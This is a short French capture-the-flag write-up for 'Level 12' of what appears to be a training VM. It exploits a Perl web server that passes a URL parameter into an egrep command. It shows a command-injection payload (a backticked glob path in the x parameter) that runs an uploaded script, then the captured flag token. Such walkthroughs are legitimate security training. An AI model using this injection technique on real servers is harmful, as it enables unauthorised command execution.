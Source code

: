 # Level 12

Comme pour le level 4 on trouve dans le dossier `/var/www` et dans le home un fichier `level12.pl`.

Comme pour le level 4, le script perl est un serveur web écoutant sur le port `4646`

Cette page web prend donc 2 paramètres cette fois ci, `x` et `y`.

- `x` Passe dans 2 regex une pour passé tous les charactère en `upper case` et une autre qui supprime tous les espaces, puis est utiliser pour executer la commande `egrep`.

- `y` ne nous servira pas.

`egrep` est une commande qui va rechercher, des patterns de recherche et le dossier de recherche.

Il nous suffit donc de `scp` un script bash dans `/tmp` comme celui du level 05, en majuscules (pour la regex).

```sh
~ scp -P 4242 SCRIPT level12@192.168.56.101:/tmp/
```

Nous pouvons nous rendre sur l'url

```
http://192.168.56.101:4646/?x=`/*/script`
```

Il nous reste plus qu'a `cat` le fichier `/tmp/flag`

```sh
~ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

